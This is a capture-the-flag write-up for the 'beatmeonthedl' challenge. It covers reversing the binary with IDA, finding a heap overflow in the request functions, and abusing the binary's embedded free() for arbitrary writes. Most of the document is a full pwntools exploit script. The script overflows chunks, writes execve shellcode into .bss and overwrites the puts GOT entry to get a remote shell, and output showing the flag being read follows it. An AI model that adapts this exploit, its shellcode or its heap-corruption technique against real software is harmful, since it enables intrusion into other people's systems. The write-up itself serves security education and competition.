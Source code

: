 # Writeup
The challenge gives the beatmeonthedl executable and that's all.
Doing a reverse engineering with IDA, we can note:

1- The main is a organized menu, pretty legible.

![beatmeonthedl1](https://cloud.githubusercontent.com/assets/1280700/25596814/9264fb4a-2ea1-11e7-9129-2dd659003e38.png)

2- The reqlist is stored in the .bss area, more specifically at address 0x609e88. It is an array
of pointers (max of 31 places).

![beatmeonthedl2](https://cloud.githubusercontent.com/assets/1280700/25596815/9267929c-2ea1-11e7-84ba-67a7e1bb1ae3.png)

3- There are buffer overflow vulnerabilities in the add_request and update_request functions. While
the allocated memory for a request string is of 56 bytes (line 15), it allows writing 128 bytes
(line 23).  

![beatmeonthedl3](https://cloud.githubusercontent.com/assets/1280700/25596816/9274b666-2ea1-11e7-9154-d186d88da477.png)

The buffer overflow vulnerabilities cause weird things when deleting an overflowed buffer. After
inspecting for a while through gdb, I noticed that it was possible to write anything in reqlist.
For example, after deleting the input *"A"\*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" +
"\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00"*, it writes 0x609f90 in
0x609e98 (0x609e80 + 0x18). 

Using the usual free function from stdlib, this does not happen, and an runtime error of *free():
invalid next size (fast)* occurs. This exaplains why the free function is embedded in the
beatmeonthedl executable.

After confirming this strange behavior, I wrote the script below which gave me a shell.

```python
from pwn import *

p = process("./beatmeonthedl")
#p = remote("beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me", 6969)
res = p.recvuntil("Enter username: ")
p.sendline("mcfly")
res = p.recvuntil("Enter Pass: ")
p.sendline("awesnap")
#adds foir request texts:
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("CCCCCCCC")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("DDDDDDDD")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("EEEEEEEE")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("FFFFFFFF")

#replaces the third text, overflowing the fourth
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("2")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609f90 at 0x609e80 + 0x18 (fourth position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("2")

#writes our shellcode at 0x609f90 (the fourth position)
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("3")
res = p.recvuntil("data: ")
p.sendline("\x90"*10 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

#replaces the first text, overflowing the second
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("0")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x70\x9e\x60\x00\x00\x00\x00\x00" + "\x58\x99\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609958 at 0x609e70 + 0x18 (second position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("0")

#writes the address of our shellcode in the put got
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("1")
res = p.recvuntil("data: ")
p.sendline("\x90\x9f\x60\x00\x00\x00\x00\x00")

p.interactive()
```

```
[+] Opening connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me on
port 6969: Done
[*] Switching to interactive mode
$ ls
beatmeonthedl
flag
$ cat flag
The flag is: 3asy p33zy h3ap hacking!!
```
